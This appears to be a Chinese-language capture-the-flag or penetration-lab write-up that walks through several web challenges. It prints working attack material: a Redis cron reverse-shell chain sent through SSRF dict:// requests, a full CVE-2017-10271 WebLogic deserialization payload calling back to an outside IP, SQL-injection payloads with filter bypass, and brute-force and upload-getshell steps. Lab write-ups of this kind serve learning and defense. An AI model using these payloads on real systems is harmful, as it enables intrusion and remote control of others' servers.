


Web1
FLAG1
进入页面看源码
到这里就可以想到ssrf漏洞了，直接尝试file伪协议读取敏感文件
这里也是直接成功，没有过滤，接下来根据提示说flag在根目录，尝试直接读取/flag，也是直接拿到
FLAG3
提示内网范在：172.18.240.0/24，直接利用http协议进行内网主机探测，如下图发现两台存活主机，不过关注第二个即可

初步扫除两台内网主机：172.18.240.5和172.18.240.7，其中5为当前服务器，不用理会。接着扫一些敏感目录，很幸运，看到7主机的6379端口已打开
直接dict尝试看一下是否是未授权，如下图，确定为未授权，尝试写入计划任务反弹shell
# 清空 key
dict://172.18.240.7:6379/flushall
# 设置要操作的路径为定时任务目录
dict://172.18.240.7:6379/config set dir /var/spool/cron/
# 在定时任务目录下创建 root 的定时任务文件
dict://172.18.240.7:6379/config set dbfilename root
# 写入 Bash 反弹 shell 的 payload
dict://172.18.240.7:6379/set 1 "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/5555 0>%261\n"
# 保存上述操作
dict://172.18.240.7:6379/save最终拿到shell，得到flag
FLAG3
在这里也是尴尬，拿到shell了，以为说的数据库指的是MySQL，研究了半天无果，突然想到redis也是数据库，尝试读取当前数据库所有的key
看到存在flag 的key，直接get拿到即可
Web2
FLAG1
访问首页，经典weblogic页面，这里找了几个网上poc没啥用，接着直接工具梭哈了
发现存在CVE-2017-10271（xml反序列化漏洞），直接命令执行去
拿到flag1
之后还想着工具一把梭，奈何工具垃圾，还是手工吧，访问wls-wsat/CoordinatorPortType路由，尝试poc利用xml反序列化，如上图，成功反弹shell
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/124.220.233.26/5555 0>&1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>发现一个存活主机172.25.20.12
nmap --script=mysql-brute --script-args userdb=/home/kali/user.txt,passdb=/home/kali/pass.txt 192.168.71.1 -p 3306这里感觉就是MySQL的爆破，但也可能不是。
Web3
FLAG1
看到网站用的java servlet，先扫个目录看看
很好，典型的Spring boot actuator敏感信息泄露，直接访问/acutuator/env看一下环境配置信息
直接拿到flag
Web5
打开网站直接dirsearch扫目录，找到admin的登录页面
首页是后台登录页面，信息搜索无果，接着尝试sql注入，bp抓包
如上图，输入不正确的用户名，会回显不存在，所以需要找到正确用户名，尝试直接对这user或password参数进行sql注入
很幸运发现数据库存在sql注入，且会回显报错信息，那就尝试报错注入（这里手工fuzz或者网上文章，可以找到该网站过滤的sql注入关键字）但双写即可绕过
1'or updatexml(1,concat(0x7e,(database()),0x7e),1)%23爆出数据库名，继续执行即可，不过这里直接显示了字段名，我们针对的查找username和password即可
1'or updatexml(1,concat(0x7e,(seleselectct group_concat(table_name) fr from om information_schema.tables whe where re table_schema like 'beescms'),0x7e),1)%23接着就能爆破用户名和密码了
1'or updatexml(1,concat(0x7e,(seleselectct admin_name fr from om bees_admin),0x7e),1)%23
1'or updatexml(1,concat(0x7e,(seleselectct admin_password fr from om bees_admin),0x7e),1)%23用户名为meetsec，密码回显不全，substring处理一下就行，这里不写了，最后是缺少个字母b，上md5破解网站爆破得到密码为Login123
2446d54c2e68d221db9cff653b01a0eb登陆之后找到文件上传页面upload.php
测试了一下发现只是检测mime内容，修改一下即可
点击图片列表可以找到上传的图片路径，修改对应文件名即可，之后访问直接getshell，没有过滤，如下图得到flag
Web6
这里经典tomcat中间件，高版本以及扫目录发现manage存在，直接访问发现是一个http身份认证，抓包爆破弱口令

成功爆破：tomcat:qwe123 这里之前爆破了n长时间无果，搞得以为又是什么其他漏洞，结果是字典问题
进入后台就是常规上传war包了，这里尝试了多个jsp马，但最后都连不上去，也不知道为啥，感觉是木马问题
之后只能尝试msfvenom生成一个反弹shell的jsp马，最终部署后访问，得到shell
Web7
看端口和页面回显就知道了，这里存在redis未授权，尝试直接redis-cli连接
发现只能使用几个读取命令，没有写的权限，也就是普通用户权限，那可以想到利用redis主从复制直接拿shell
这里做完没有截图，结果重新做的时候环境都出问题了，使用备用靶机发现似乎目标机配置有问题？相同命令在这里用不了了
这里直接cat /flag是可以拿到的
Web9
这道题很幸运，在第一台主机访问的时候，页面回显404，也就知道是个Java框架，但不知道咋利用，耗了一天没思路，第二天继续扫目录，依旧无果，但是在回头做Web2的时候，在拿下第一台主机shell之后，尝试用fscan扫了一下内网主机漏洞。
结果就出Web9这个主机存在nacos的弱口令，简直神了，接着就是登录，但这时候又没有思路了，尝试了网上的几个工具，但是不存在相关的反序列化漏洞，之后无意间查看了配置详情，结果看到了shiro key的泄露，这下思路有了
直接工具梭哈了，如下图，爆破出利用链，直接命令执行得到flag
总结
目前经验太少了，平常没有多实践，因此遇到这次渗透靶场的题，思路几乎跟着网上文章都是碰出来的，这提示着我今后还需要多实践一下。
在上面的web2内网中，就由于自己内网知识的欠缺，始终不知道如何完美的下手，内网隧道搭不起来，导致最终无果。
web3是一个MySQL数据库的暴漏，但我也只知道爆破一下密码。其余也没有什么思路了。。。。
参考文章
WebLogic XMLDecoder反序列化漏洞(CVE-2017-10271)漏洞复现